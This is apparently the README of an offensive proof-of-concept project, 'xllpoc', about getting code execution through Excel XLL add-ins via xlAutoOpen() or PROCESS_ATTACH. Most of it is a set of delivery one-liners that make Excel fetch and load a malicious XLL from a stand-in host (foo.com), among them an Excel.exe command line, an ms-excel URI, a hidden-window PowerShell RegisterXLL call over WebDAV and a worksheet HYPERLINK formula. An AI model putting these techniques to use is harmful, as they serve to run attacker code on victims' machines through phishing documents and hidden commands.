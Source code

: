 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. 

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee

### Getting Exec
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
#### Some various execution techniques 
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyones favourite oneliner 
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet (xll cant be found)
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```


